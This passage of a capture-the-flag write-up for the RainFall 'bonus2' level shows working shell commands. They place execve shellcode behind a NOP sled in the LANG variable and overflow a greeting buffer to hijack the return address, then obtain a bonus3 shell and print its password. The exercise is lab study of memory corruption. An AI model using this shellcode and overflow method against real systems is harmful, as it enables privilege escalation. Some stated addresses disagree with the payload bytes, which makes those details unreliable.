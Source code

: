 **Method 1: Dutch Language**
```bash
bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')

bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\x22\xff\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

**Method 2: Finnish Language**  
```bash
bonus2@RainFall:~$ export LANG=$(python -c 'print("fi" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')

bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x22\xff\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB
$ whoami  
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

**Success!**
1. **LANG variable setup**: Contains language prefix + NOP sled + shellcode
2. **Language selection**: "nl" or "fi" triggers appropriate buffer layout
3. **Buffer overflow**: Precisely calculated input reaches return address
4. **Return address overwrite**: Points to NOP sled in LANG environment variable
5. **Shellcode execution**: Control flow redirected to injected code
6. **Shell obtained**: execve("/bin/sh") executed with bonus3 privileges

### 14. Understanding the Execution Flow
```bash
# Step-by-step execution analysis:

1. Environment Setup:
   LANG="nl" + "\x90"*100 + shellcode
   LANG variable stored at ~0xbffffeb4 in environment

2. Program Execution:
   ./bonus2 "A"*40 "B"*23 + return_address
   
3. main() Processing:  
   - argc == 3 ✓ (validation passed)
   - strncpy(buffer, "A"*40, 40) ✓ (argv[1] copied)
   - strncpy(buffer+40, "B"*23+addr, 32) ✓ (argv[2] copied, truncated to 32)
   - getenv("LANG") returns address of "nl\x90\x90..."
   - memcmp detects "nl" → sets language to Dutch
   
4. greetuser() Processing:
   - Local buffer allocated (72 bytes)
   - Dutch greeting copied: "Goedemiddag! " (14 bytes)
   - strcat appends user input: 14 + 58 = 72 bytes (fills buffer)
   - Additional 4 bytes overwrite saved EBP
   - Next 4 bytes overwrite return address with 0xbffffee6

5. Function Return:
   - greetuser() returns to 0xbffffee6 (inside LANG NOP sled)  
   - CPU executes NOP instructions, slides to shellcode
   - Shellcode executes: execve("/bin/sh", NULL, NULL)
```